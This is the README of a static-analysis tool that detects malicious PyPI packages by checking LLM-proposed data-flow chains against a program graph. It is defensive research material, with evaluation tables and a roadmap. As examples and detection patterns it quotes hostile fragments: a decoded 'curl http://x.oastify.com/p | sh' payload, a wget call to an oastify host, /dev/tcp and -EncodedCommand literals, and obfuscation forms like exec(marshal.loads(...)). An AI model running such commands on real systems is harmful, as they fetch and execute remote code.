

<div align="center">

# 🛡️ NEW_DDG v3

**LLM Builds the Chains. The Graph Keeps It Honest.**
**Evidence-Gated Detection of Malicious PyPI Packages**

[](https://www.python.org/downloads/)
[-orange.svg)](https://github.com/ZJU-PL/pyflow)
[](LICENSE)
[](tests/)
[](https://open.bigmodel.cn/)

*PyFlow analysis substrate · Capability-neutral SSO · Function catalog + cluster delivery · LLM-constructed chains · Program verification · Two-stage heterogeneous models*

[English](README.md) | [简体中文](README_zh.md)

</div>

---

## What changed in v3

v2 hand-rolled every analysis component: a DDG builder, a taint engine, an SSO
extractor, a coverage estimate. Each worked, but each was a weaker reimplementation
of a solved problem — and the graph builder alone took minutes on 1000-file
packages and timed out regularly.

v3 replaces the analysis substrate with [PyFlow](https://github.com/ZJU-PL/pyflow)
(IFDS framework, ZJU-PL, [arXiv:2608.07026](https://arxiv.org/abs/2608.07026)) and
keeps our verdict layer. What changed:

| | v2 | v3 |
|---|---|---|
| **Analysis engine** | Hand-written DDG + taint | PyFlow IFDS + GIR + callgraph + alias |
| **Large packages** | Full-package build, 40 min, frequent timeouts | 2–7 s typical, 60 s hard budget |
| **Unit delivered to the model** | Budget-sliced block (file → function → 256-node chunk) | **Function catalog → cluster** (seed + 2-hop call closure) |
| **Model split** | One model, four independent LLM paths | **Small model proposes chains, big model adjudicates** (now actually wired) |
| **Unknown analysis** | Not modelled | **Coverage gate: unknown ≠ safe** |
| **Obfuscation** | Regex over source text | **marshal constant-table inspection + bounded multi-layer peeling** |
| **Measured (100+100)** | 90 % recall / 0 % hard FP | **98 % recall / 0 % hard FP / 7 % suspicious** |

The engine is theirs; the four layers on top are ours: PyPI threat-model
instantiation, execution-phase classification, statement-level interprocedural
edges, and coverage-gated evidence grading.

---

## The Problem This Solves

Static malware detectors for package registries fail in two complementary ways:

**Rule-based tools** (regex/heuristic scanners) produce plausible but unsupported
verdicts. A regex sees `exec(` and calls it malware — until it runs on `cffi`,
`packaging`, or any project whose build legitimately generates code. Recall looks
great on a malware corpus; precision collapses on the real registry.

**Single-shot LLM judges** ask a model to read a package and answer "malicious or
not". They cannot show their work, they hallucinate functions that do not exist,
and they have no way to distinguish "no attack found" from "I did not look
carefully".

NEW_DDG takes a third position: **the graph is the evidence, the LLM proposes
paths through it, and a program checks every hop.** A verdict is never a model's
opinion about code it read; it is a claim that can be re-verified against the
graph.

---

## Architecture (v3)



### Three-layer division of labour

| Layer | Who | What it is good at | What it must never do |
|---|---|---|---|
| **Deterministic** | program | parsing, edges, verification, coverage | judge intent |
| **Mechanical** | small model | walk a graph, propose candidate paths | decide the verdict |
| **Semantic** | big model | recognise intent, spot idiom mismatch | invent evidence |

---

## Graph construction: standing on PyFlow, adding what it lacks

PyFlow provides the analysis; it does not provide a malware verdict. Four things
had to be built on top.

### 1. Capability mapping (20 generic → 11 attack-chain classes)

PyFlow classifies by *vulnerability impact*; we classify by *position in an
attack chain*. `information.credentials` becomes a first-class Tier-1 capability
(reading credentials is an attack-chain start, not a file read). `module.loader_mutation`
maps to `code_eval` — it is the `.pth`/`sitecustomize` persistence surface that
only exists in the PyPI threat model.

### 2. Execution phase (PyPI-specific)

```python
setup.py top-level     → install    # pip install executes it
__init__.py top-level  → import     # import executes it
anything in setup.py   → install    # cmdclass hooks live in class methods
function body elsewhere→ runtime
```

69.8 % of malicious PyPI packages trigger at install time (Cerebro, TOSEM 2025).
A payload inside `class InstallScripts(install_scripts).run()` is install-time
code even though it sits in a function body — v2 scored it as `runtime` and
missed the package entirely.

### 3. Statement-level interprocedural edges

PyFlow's DDG is intra-procedural, and its callgraph is function-level (one edge
per function pair). A three-file chain `config.py → utils.py → runner.py` becomes
three disconnected islands. GIR call statements carry the callee name, so we
build:

```
call statement      → callee entry        (kind=call)
callee return stmt  → call statement      (kind=return)
escaping value      → callee entry        (kind=param, from escape events)
```

Verified on a synthetic three-file package: the chain
`decode(transform.py) → data(main.py) → os.system(main.py)` is reconstructed as
a single connected path.

### 4. IOC target awareness

`requests.post` is a sink in every taxonomy. But an API client posting to its own
server and a stealer posting to `45.77.12.9` are the same *category* and opposite
*intent*. We classify the destination:

| Class | Examples | Effect |
|---|---|---|
| `attacker_infra` | bare IP, oastify/interactsh, webhook.site, pastebin, telegram-bot, miner pools | convicts |
| `package_own` | well-formed domain with no hostile feature | does not convict |
| `dynamic` | `self._address + path`, f-strings | stays suspicious |
| `none` | nothing network-shaped | falls back to the generic rule |

---

## Delivery: function catalog, not budget slicing

A 9,959-node graph cannot be put in a prompt. v2 sliced it by size, which cut
chains at arbitrary boundaries and hid co-conspirators from each other. v3 selects
by relevance:

```
① compress the graph into a function catalog
     file::name  L12-40  18stmt  [process_spawn, env_access]  in3/out7  install  score=21.9

② score every function (deterministic, auditable)
     capability tier (Tier-1 = 10) + log(in/out degree) + install/import (+6)
     + hostile literal (+8) + cross-file (+2) − test fixture (×0.25)

③ seeds → clusters
     seed + 2-hop call closure (data/call/return edges, cross-file)
     + intermediate functions on paths between members (≤4 hops)
     cap: 6 functions / 900 statements per cluster

④ cluster = one block, delivered whole
```

Measured on a real obfuscated sample (9,959 nodes / 585 functions): 8 clusters,
each 52–402 statements, payload function ranked #2 and bundled with the functions
it calls.

**Why clusters and not functions:** if `A` reads credentials and `B` posts them,
each looks benign alone. Splitting them reproduces the split-attack failure the
whole design exists to prevent.

---

## Two-stage models: small proposes, big adjudicates

| Stage | Model | Input | Task |
|---|---|---|---|
| **1** | GLM-4-Flash | digest, ≤700 nodes | walk the graph, emit node-ID sequences |
| — | program | graph | verify every hop; reject hallucinated nodes/edges |
| **2** | GLM-4-Plus | verified paths only + PKG-INFO | decide intent, spot idiom mismatch |

The cost structure is a ladder: the expensive model is only called when the cheap
one found something verifiable.

**Anti-hallucination contract** (enforced in code, not in the prompt):

- every node ID must exist in the graph
- every hop must correspond to a real edge (direction-agnostic, same-statement tolerated)
- valid prefixes are kept as `partial` paths (≥2 steps, ≥50 % of the proposal)
- a single-node claim must contain a hostile literal
  (`/dev/tcp`, `-EncodedCommand`, miner pool, `curl … | sh`)
- `MALICIOUS` with no verified path is demoted to `SUSPICIOUS`

Because node IDs are assigned by `md5(node_id)` sort rather than graph order, a
model cannot "walk" N1 → N2 → N3 without actually following edges.

---

## Obfuscation: read the bytecode, not just the text

Obfuscation hides *logic*, not *API surface*. Six levels, measured:

| Level | Shape | Result |
|---|---|---|
| L1 | `getattr(os, "sys"+"tem")` | ✅ constant folding resolves it |
| L2 | `__import__(b64decode("b3M="))` | ✅ resolver primitive caught |
| L3 | custom decoder function | ⚠️ only `__import__` visible |
| L4 | runtime key | ⚠️ only `env` + `__import__` visible |
| L5 | `exec(marshal.loads(b64))` | ✅ **constant table read without executing** |
| L6 | base64→zlib × 3 | ✅ fully peeled |

**L5 is the important one.** `marshal.loads` deserialises without executing, so we
walk `co_consts` / `co_names` and surface the payload:

```python
exec(marshal.loads(b64decode(blob)))
  →  co_consts: ('curl http://x.oastify.com/p | sh',)
  →  co_names:  ('os', 'system')
```

Multi-layer peeling stops at 3 layers and collects every intermediate readable
form — URLs often sit in the middle layer. Decoding never executes the result;
it is only regex-scanned and shown to the model.

**Benign obfuscation is not penalised.** Cython output, PyArmor-protected SDKs and
compressed assets are obfuscated too, so obfuscation itself carries no weight. The
distinguishing rule is *destination*: obscured content that ends in
`exec`/`subprocess`/`socket` is malicious; obscured content that stays data is not.

---

## Evidence grading

| Tier | Examples | Can convict alone? |
|---|---|---|
| **Factual** | PyPI 404, verified install hook, code clone | ✅ |
| **Structural** | verified chain from a strong source to an execution/exfil sink | ✅ (with judge) |
| **Semantic** | big-model judgment over verified paths | ✅ with structural support |
| **Heuristic** | regex hits, weak chains (`env → exec`), name similarity | ❌ never — SUSPICIOUS at most |
| **Coverage** | "analysis skipped 40 % of entries" | ❌ only blocks `BENIGN` |

Two rules keep the tiers honest:

- **Weak source → execution never convicts.** `file_read → exec` is what
  setuptools-scm does in ~50 000 packages.
- **Unknown ≠ safe.** If PyFlow reports that it skipped more than 30 % of entries
  and no Tier-1 capability was found, the verdict cannot be `BENIGN`.

---

## Evaluation

### v3, 100 malicious + 100 benign (same seed, same pipeline)

| | Malicious (100) | Benign (100) |
|---|---|---|
| **MALICIOUS** | **98 (98 %)** | **0 (0 %)** |
| SUSPICIOUS | 1 | 7 (7 %) |
| BENIGN | 1 | 93 |

### v2, 500 + 500 (previous architecture, same corpus family)

| | Malicious (500) | Benign (500) |
|---|---|---|
| MALICIOUS | 92.4 % | 1.4 % (2 of 7 later confirmed as real malware) |
| SUSPICIOUS | 7.2 % | 6.2 % |
| ANALYSIS_FAILED | **0** | 0 |

### What the v2 → v3 delta came from

Eight points of recall, zero increase in false positives. It was **not** threshold
tuning — it was seven silent failures, each of which had disabled a feature that
looked like it was working:

| # | Failure | Effect |
|---|---|---|
| 1 | Full-graph snapshot assigned inside a `try` block | packages with zero edges silently skipped block analysis |
| 2 | Cluster dicts unpacked as 4-tuples | two-stage scan raised and was swallowed |
| 3 | Graph shim keyed nodes by `abs_path_line_col` while edges looked up `rel_line_col` | **PyFlow backend emitted zero edges through the whole pipeline** |
| 4 | `_nid` missing from `__slots__` | AttributeError on first package |
| 5 | Taint analysis returned early on `not edges` | droppers with literal payloads never produced a chain |
| 6 | Credential paths not a taint source | `~/.kube/config` + `~/.ssh/id_rsa` theft classified as `file_read` |
| 7 | Function bodies in `setup.py` classified `runtime` | `cmdclass` install hooks invisible |

Three of these produced no error, no warning and no log line. The lesson is in the
test suite now: every gate has an assertion that it actually fired.

### Why 7 % benign stays SUSPICIOUS

The seven are `intuit_oauth`, `nvgpu`, `mslex`, `pylint-celery`, `edn_format`,
`allpairspy`, `python_path`. Each genuinely exercises malicious-grade capability:

- `intuit_oauth` reads and transmits OAuth credentials — by design
- `nvgpu` calls into native GPU libraries via `ctypes`
- `edn_format` deserialises untrusted input

Reporting them as SUSPICIOUS is correct, not a defect. The system currently
collects only **negative evidence** (no chain found); it does not yet collect
**positive evidence of legitimacy**. That is the next architectural piece, not a
threshold to tune.

---

## Positioning

| Work | Engine | Verdict layer | Target |
|---|---|---|---|
| **PyFlow** (ZJU-PL, ASE'26) | IFDS + alias + GIR | none (SAST findings, CWE-tagged) | vulnerabilities |
| **MalSkills** (ASE'26) | Semgrep 2 665 rules + LLM neuro extractor | symbolic patterns + LLM gap-filling | agent skills |
| **Cerebro** (TOSEM'25) | 16 features + call-graph sequence | fine-tuned BERT | npm + PyPI |
| **GuardDog** | YARA + heuristics | risk score | PyPI/npm |
| **NEW_DDG v3** | **PyFlow** (dependency) | **LLM-built chains + program verification + evidence grading** | PyPI |

The relationship to PyFlow is deliberate: we depend on it rather than reimplement
it, and we cite it. On the same corpus, PyFlow's own `security` engine reports
`os.system('wget https://…oastify.com/test')` as *B605 shell injection, severity
Low* — it sees a code smell, not malware. That gap is the layer we own.

---

## Known limitations

1. **7 % benign SUSPICIOUS** — capability present, intent unverified. Needs a
   legitimacy channel (destination consistency, ecosystem age, documentation
   match), not a lower threshold.
2. **Cross-function edges are still coarser than within-function edges** — statement
   level inside a function, statement level across calls, but no full points-to.
3. **Custom VMs and runtime-keyed encryption remain opaque.** Static analysis
   recovers the capability but not the payload.
4. **Cost asymmetry** — benign packages are ~5× slower than malicious ones because
   ambiguity triggers cluster analysis.
5. **100-sample confidence** — 0/100 false positives has a 95 % upper bound near
   3 %. The 1 000 + 1 000 run is in progress to tighten it.

### Roadmap

| Phase | Work |
|---|---|
| **A** | Legitimacy channel — positive evidence that can move SUSPICIOUS → BENIGN (never convict) |
| **B** | `sys.addaudithook` sandbox — run `setup.py` with filesystem/network interception, 5–15 s per package, triggered only on static SUSPICIOUS |
| **C** | Points-to-backed operand resolution so `self._address` resolves to a concrete endpoint |
| **D** | Dynamic analysis as a fourth evidence tier — **never** as proof of cleanliness |

---

## Quick Start

```bash
pip install -r requirements.txt

# optional: PyFlow substrate (needs Python >= 3.10)
python3.10 -m venv pfenv && ./pfenv/bin/pip install git+https://github.com/ZJU-PL/pyflow.git
export PYFLOW_BIN=$PWD/pfenv/bin/pyflow

# v3 pipeline
python batch_solution_b_v2.py ./packages \
    --api-key "$GLM_API_KEY" \
    --graph-backend pyflow \
    --llm-pipeline two_stage \
    --llm-model-small glm-4-flash \
    --llm-model-big glm-4-plus \
    --pyflow-capability-model config/pypi_capability_model.json

# offline / no PyFlow: falls back to the builtin DDG automatically
python batch_solution_b_v2.py ./packages --api-key "$GLM_API_KEY"
```

| Flag | Default | Meaning |
|---|---|---|
| `--graph-backend {builtin,pyflow}` | `builtin` | analysis substrate; auto-falls back if PyFlow is missing |
| `--llm-pipeline {single,two_stage}` | `single` | `two_stage` = small proposes, big adjudicates |
| `--llm-model-small` / `--llm-model-big` | fall back to `--llm-model` | stage models |
| `--pyflow-max-seconds` | 60 | per-command wall budget |
| `--coverage-max-skip` | 0.30 | skipped-entry ratio above which BENIGN is forbidden |
| `--no-block-scan` | off | disable cluster analysis (ablation) |
| `--no-cross-scope` | off | disable boundary edges + global chain distribution (ablation) |

---

## Output schema

```json
{
  "package_name": "requsets-2.28.1",
  "final_category": "MALICIOUS",
  "graph_backend": "pyflow",
  "llm_pipeline": "two_stage",
  "capabilities": {"code_eval": 12, "credential_access": 3, "network_out": 108},
  "execution_phases": {"runtime": 641, "import": 2, "install": 7},
  "coverage": {"skip_ratio": 0.0, "allow_benign": true},
  "block_scan": {"verdict": "MALICIOUS", "blocks_analyzed": 8, "valid_paths": 2},
  "voting_summary": "verified chain: exec(base64 payload) → urlopen(cyberresearch…)",
  "subgraph_verdicts": [{"final_verdict": "MALICIOUS", "taint_chain_count": 1}]
}
```

---

## Project Structure

```
src/
  pyflow_backend.py       PyFlow → canonical graph (nodes/edges/capabilities/coverage)
  engine_merge.py         SSO ∪ PyFlow capabilities, execution phase
  function_catalog.py     function scoring, top-N, cluster selection
  coverage_gate.py        unknown ≠ safe
  graph_digest.py         graph → LLM-readable text (short IDs, IOC, escape)
  llm_graph_analyst.py    stage 1: chain extraction + verification
  two_stage_judge.py      stage 2: adjudication
  taint_engine.py         source→sink chains, hardcoded/encoded payload evidence
  target_awareness.py     exfil destination classification
  literal_decoder.py      base64/hex/zlib/marshal static decoding
  sso_extractor.py        capability-neutral SSO extraction (constant folding)
  enhanced_detector.py    factual channel (install hooks, registry, artifacts)
  artifact_scanner.py     non-Python artifacts (.pth/.sh/data_files)
  benign_context.py       deterministic downgrades (fixtures, version idioms)
config/pypi_capability_model.json   PyPI threat-model patterns (PyFlow extension point)
tests/                    19 files, 300+ assertions
```

---

## References

```bibtex
@misc{pyflow2026,
  title={PyFlow: An Inter-procedural Static Analysis Framework for Python},
  author={Gu, Zinan and Yan, Haoxiang and Yao, Peisen},
  year={2026}, eprint={2608.07026}
}

@inproceedings{malskills2026,
  title={MalSkills: Detecting Malicious Skills in the Agentic Supply Chain
         via Neuro-symbolic Reasoning},
  author={Wang, Shenao and He, Junjie and Zhao, Yanjie and Wang, Yayi
          and Yu, Kan and Wang, Haoyu},
  booktitle={ASE}, year={2026}
}

@article{cerebro2025,
  title={Killing Two Birds with One Stone: Malicious Package Detection in NPM
         and PyPI using a Single Model of Malicious Behavior Sequence},
  journal={ACM TOSEM}, year={2025}, doi={10.1145/3705304}
}

@inproceedings{christodorescu2005semantics,
  title={Semantics-Aware Malware Detection},
  author={Christodorescu, Mihai and Jha, Somesh and Seshia, Sanjit A.
          and Song, Dawn and Bryant, Randal E.},
  booktitle={IEEE S\&P}, pages={32--46}, year={2005}
}
```

## License

MIT
